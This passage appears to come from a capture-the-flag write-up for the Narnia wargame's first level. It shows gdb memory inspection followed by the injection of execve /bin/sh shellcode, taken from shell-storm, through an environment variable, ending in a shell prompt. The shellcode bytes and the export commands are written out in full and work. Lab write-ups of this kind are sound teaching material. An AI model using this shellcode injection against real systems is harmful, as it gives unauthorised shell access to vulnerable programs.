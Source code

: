 ``` text
(gdb) 
```

If we throw a breakpoint at the `ret()` function call (shown as `*%eax`) we can see:

``` text
(gdb) break *0x080491e1
Breakpoint 1 at 0x80491e1
(gdb) run
Trying to execute EGG!

Breakpoint 1, 0x080491e1 in main ()
(gdb) x/25x %eax
A syntax error in expression, near `%eax'.
(gdb) x/25x $eax
0xffffdeb3:	0x006c6176	0x564c4853	0x00313d4c	0x5f485353
0xffffdec3:	0x45494c43	0x313d544e	0x322e3034	0x392e3930
0xffffded3:	0x34392e36	0x38313520	0x32203036	0x00363232
0xffffdee3:	0x544f5551	0x5f474e49	0x4c595453	0x696c3d45
0xffffdef3:	0x61726574	0x434c006c	0x4c4c415f	0x5f6e653d
0xffffdf03:	0x552e5355	0x382d4654	0x4f4d5400	0x313d5455
0xffffdf13:	0x00303038
(gdb)
```

Let's check what the first hex means:

``` text
narnia1@gibson:/narnia$ echo -e "\x00\x6c\x61\x76"
lav
narnia1@gibson:/narnia$ echo $EGG
val
```

So, we can see that the hardware we are on is using `little endian`. But more importantly, we can see that the value
of `EGG` is just passed into memory. 


Alright, so we are after a shellcode injection here. The only question is... how do we do this. After bit of googling,
the answer is pretty straightforward. Since we run the shellcode as a function, we can just pass a function that gives 
us a sell. [Shell-storm](https://shell-storm.org/shellcode/index.html) is a repository of shellcode exploits. I picked
one from there. Specifically, this one: [Shellcode](https://shell-storm.org/shellcode/files/shellcode-756.html)

``` text
narnia1@gibson:/narnia$ export EGG=’\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80′
narnia1@gibson:/narnia$ ./narnia1
Trying to execute EGG!
Segmentation fault (core dumped)
narnia1@gibson:/narnia$ export EGG=$( echo -en "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" )
narnia1@gibson:/narnia$ echo $EGG
1?Ph//shh/bin??PS??1Ұ
                     ̀
narnia1@gibson:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia1
$ 
```
